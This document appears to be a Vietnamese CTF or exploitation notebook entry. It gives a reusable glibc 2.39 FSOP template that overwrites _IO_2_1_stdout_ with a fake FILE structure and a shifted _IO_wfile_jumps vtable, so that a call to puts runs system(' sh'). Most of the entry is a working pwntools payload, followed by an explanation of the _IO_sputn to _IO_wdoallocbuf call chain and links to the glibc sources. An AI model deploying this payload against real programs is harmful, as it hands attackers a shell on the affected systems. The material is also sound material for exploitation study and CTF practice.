

<details>
<summary> <strong> Description </strong></summary>
<p>

Template này sẽ get shell nếu như chương trình gọi đến `puts`.

</p>
</details>

<!--  -->

<details>
<summary><strong>POC</strong></summary>
<p>

Kĩ thuật này được dùng cho glibc `2.39`.

```python
fake_file = libc.sym['_IO_2_1_stdout_']
payload = flat({
    # fake_file->file._flags
    # requirements:
    # (_flags & 0x0002) == 0
    # (_flags & 0x0008) == 0
    # (_flags & 0x0800) == 0
    # basic approach with spaces:
    # " sh\x00"
    # 0x20, 0x73, 0x68, 0x00
    0x00: b" sh\x00",
    # fake_file->file._wide_data->_IO_write_base
    0x08: p64 (0),
    0x18: p64(0),
    # fake_file->file._IO_write_base
    0x20: p64(0),
    # fake_file->file._IO_write_ptr
    0x28: p64(1),
    # fake_file->file._wide_data->_IO_buf_base
    0x30: p64(0),
    # fake_file->file._wide_data->_wide_vtable->__doallocate
    0x58: libc.symbols["system"],
    # fake_file->file._lock
    0x88: libc.symbols["_IO_stdfile_1_lock"],
    # fake_file->file._wide_data
    0xA0: fake_file - 0x10,
    # fake_file->file._mode
    0xC0: p64(0),
    # fake_file->file._wide_data->_wide_vtable
    0xD0: fake_file - 0x10,
    # fake_file->vtable
    0xD8: libc.symbols["_IO_wfile_jumps"] - 0x20
})
```
</p>
</details>

<!--  -->

<details>
<summary><strong>Explain</strong></summary>
<p>




Ta cần gọi đến `IO_wfile_overflow`, mà ta thấy hàm `puts` gọi đến `_IO_sputn`:

```c
#define JUMP2(FUNC, THIS, X1, X2) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1, X2)
#define _IO_XSPUTN(FP, DATA, N) JUMP2 (__xsputn, FP, DATA, N)
#define _IO_sputn(__fp, __s, __n) _IO_XSPUTN (__fp, __s, __n)
```

Nên ta cần gán như thế nào đó để nó phải gọi đến `IO_wfile_overflow`, bằng cách gán `vtable` của `_IO_2_1_stdout` thành `_IO_wfile_jumps - 0x20`.

Tiếp theo chỉ cần thỏa mãn đủ các điều kiện để chương trình gọi đến `_IO_wdoallocbuf`, và gán lại `_IO_wdoallocbuf` trong `vtable` của `_IO_wfile` thành `system` là chúng ta đã lấy được shell.

</p>
</details>

<!--  -->

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/ioputs.c
- https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/fileops.c#L1196
- https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/wfileops.c#L406

</p>
</details>